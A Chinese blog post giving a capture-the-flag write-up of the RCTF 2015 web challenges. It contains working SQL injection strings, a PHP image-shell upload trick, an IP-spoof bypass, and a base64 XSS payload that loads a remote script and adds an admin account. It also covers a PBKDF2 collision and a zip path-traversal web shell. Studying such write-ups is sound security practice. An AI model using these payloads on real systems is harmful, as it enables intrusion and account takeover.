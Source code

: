 ```yaml
---
layout: post
title: RCTF-writeup[web]
tags: [writeup]
date: 2015-11-17 09:34:39
---
```


**upload**
看起来是一个上传题，其实这是一个注入题。在文件名的地方存在注入。因为注入点是insert的，如果直接进行报错注入或者延时注入的话会提示sqlinject find。我们可以利用二次注入，来得到数据。通过fuzz发现，在进行insert操作的时候有三个列，所以构造

```
文件名','uid','uid'),((database()),'uid','uid')#.jpg
```
就可以看到回显的数据，然后通过走流程就可以查询出flag，但是有一点要注意题目直接把select from 这些关键字过滤了两次所以得构造这样的selselectect才行。


**weeeeeb3**

先注册一个帐号，然后找回密码，输入正确的信息。到第二步提示修改新的密码的时候，直接抓包把用户名修改为admin。然后就可以登陆admin这个帐号，然后在manage页面提示 not allow ip 我们把xxf改为127.0.0.1就可以绕过。然后要我们猜action 由于是filemanage就直接猜action＝upload 然后就出现一个上传页面，通过一轮fuzz，直接上传一个图片马，在后面写上

```
<script lanaguage="php"> phpinfo()</script>
```
把后缀改为php5 就成功拿到了flag。


**xss**
这是一个留言板，通过fuzz发现过滤了很多标签，除此之外还把on事件直接给过滤了。后面测试发现可以使用link标签，然后使用sctf里面那种方法就可以弹框了。

```
<link rel="import" href="data:text/html;base64,PHNjcmlwdD5kZWxldGUgYWxlcnQ7YWxlcnQoIkhlbGxvIik7PC9zY3JpcHQ+">
```
![xss-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1170534972.jpg)

查看页面的html源码发现

```
<!--only for admin
<form action="" method="post">
username:<input type="text" name="name"><br />
password:<input type="password" name="pass"><br />
<input type="radio" name="isadmin" value="0">user
<input type="radio" name="isadmin" value="1">admin<br />
<input type="hidden" name="token" value="34a1615ff3eaf616f7fa205a12792d27">
<input type="submit" name="adduser" value="adduser">
</form>-->
```
很明显啦，就是要添加一个管理帐号帐号，发现页面使用啦jquery直接添加帐号就行。

```javascript
<script src=http://180.76.178.54:8004/4b79f5d4860384d4ac494ad91f5313b7/js/jquery.js></script>
<script>
$.ajax({
                               type: "post",
                               url: "",
                               data: "name=tomato123&pass=tomato123&isadmin=1&adduser=adduser&token="+$("input[name=token]").val()})
</script>
```

然后构造payload

```
<link rel="import" href="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovLzE4MC43Ni4xNzguNTQ6ODAwNC80Yjc5ZjVkNDg2MDM4NGQ0YWM0OTRhZDkxZjUzMTNiNy9qcy9qcXVlcnkuanM+PC9zY3JpcHQ+CjxzY3JpcHQ+CiQuYWpheCh7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICB0eXBlOiAicG9zdCIsCiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICB1cmw6ICIiLAogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgZGF0YTogIm5hbWU9dG9tYXRvMTIzJnBhc3M9dG9tYXRvMTIzJmlzYWRtaW49MSZhZGR1c2VyPWFkZHVzZXImdG9rZW49IiskKCJpbnB1dFtuYW1lPXRva2VuXSIpLnZhbCgpfSkKPC9zY3JpcHQ+">
```
添加了一个帐号密码为tomato123的管理员
访问admin.php拿到flag
![xss－2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-545225687.jpg)




**easysql**
注册一个aaa\然后在修改密码的页面可以发现报错

![easysql-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2913177276.jpg)

可以看到是双引号，这明显是一个二次注入，然后重新构造语句发现不能含有空格。但是这并不影响，直接用括号代替就行了。

![easysql-2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-157009057.jpg)

然后爆出一个flag表，查询提示说flag not here，然后去查users里面的列名发现

![easysql－3.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3268258668.jpg)

然后直接去查询里面的内容，发现只能出现RCTF这几个字符，然后就一直在纠结怎么查询，因为测试发现把substring left，right，reverse like 这些都拦截了。后面灵机一动想到了regexp。

```
username=tomato"||updatexml(0x7c,concat((select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^R'))),1)#&password=tomato&email=tomato
```
然后成功搞定

![easysql－4.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1387239513.jpg)


**login**
第二天给了提示说是nosql，那就猜是mongodb
![login-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3330162428.jpg)

那就开始跑密码了。![login－2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3255963769.jpg)

跑出的帐号密码为

```
ROIS_ADMIN  pas5woRd_i5_45e2884c4e5b9df49c747e1d
```
然后登陆一发。
![login-3.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-460039838.jpg)

下载备份文件，发现是一个php的解压zip的类，然后百度找到官方提供的，在diff一下

![login-4.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1149569489.jpg)


还在html源码里面发现

```php
$Agent = $_SERVER['HTTP_USER_AGENT'];
$backDoor = $_COOKIE['backdoor'];
$msg = json_encode("no privilege");
$iterations = 1000;
$salt = "roisctf";
$alg = "sha1";
$keylen = "20";
if ($Agent == $backDoor || strlen($Agent) != 65) {
    exit($msg);
}
if (substr($Agent,0,23) != "rois_special_user_agent") {
    exit($msg);
}
if (pbkdf2($alg, $Agent, $salt, $iterations, $keylen) != pbkdf2($alg, $backDoor, $salt, $iterations, $keylen)) {
    exit($msg);
}
```
测试发现直接上传zip提示没有权限，然后只有过了上面三个条件才行。主要是第三个条件不好过，然后google一发
pdkdf2 ctf 

![login－5.jpg][11]![2664205826](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2664205826.jpg)

找到了这个 PBKDF2+HMAC collision
然后在https://mathiasbynens.be/notes/pbkdf2-hmac
这篇文章里面说到这个是可以碰撞的，就是不同的明文会出现相同的密文，然后用里面提供的脚本跑一发。成功跑出来一个

```
rois_special_user_agentaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamipvkd

3-Rfm^Bq;ZZAcl]mS&eE
```
然后改一下ua，在cookie里面添加backdoor就可以成功上传了。

![login－6.jpg][12]![2009859300](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2009859300.jpg)

按照解压出来的文件的命名规则为md5(文件名＋RoisFighting).文件的后缀
但是访问http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/upload/image/051ee28a1964f9f2779d32f2e48212cb/70d08f9380da3a6e0440b3266a2a39f6.php![2977300730](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2977300730.jpg)

文件并不存在，测试发现在解压后会直接删除文件，所以我们可以尝试构造一个解压到上级目录的shell



![login-7.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2977300730.jpg)

shell地址就是
http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/upload/image/382aef24b11f8c5222bc58062a9bf5c7.php


  [1]: http://bl4ck.in/usr/uploads/2015/11/1170534972.jpg
  [2]: http://bl4ck.in/usr/uploads/2015/11/545225687.jpg
  [3]: http://bl4ck.in/usr/uploads/2015/11/2913177276.jpg
  [4]: http://bl4ck.in/usr/uploads/2015/11/157009057.jpg
  [5]: http://bl4ck.in/usr/uploads/2015/11/3268258668.jpg
  [6]: http://bl4ck.in/usr/uploads/2015/11/1387239513.jpg
  [7]: http://bl4ck.in/usr/uploads/2015/11/3330162428.jpg
  [8]: http://bl4ck.in/usr/uploads/2015/11/3255963769.jpg
  [9]: http://bl4ck.in/usr/uploads/2015/11/460039838.jpg
  [10]: http://bl4ck.in/usr/uploads/2015/11/1149569489.jpg
  [11]: http://bl4ck.in/usr/uploads/2015/11/2664205826.jpg
  [12]: http://bl4ck.in/usr/uploads/2015/11/2009859300.jpg
  [13]: http://bl4ck.in/usr/uploads/2015/11/2977300730.jpg

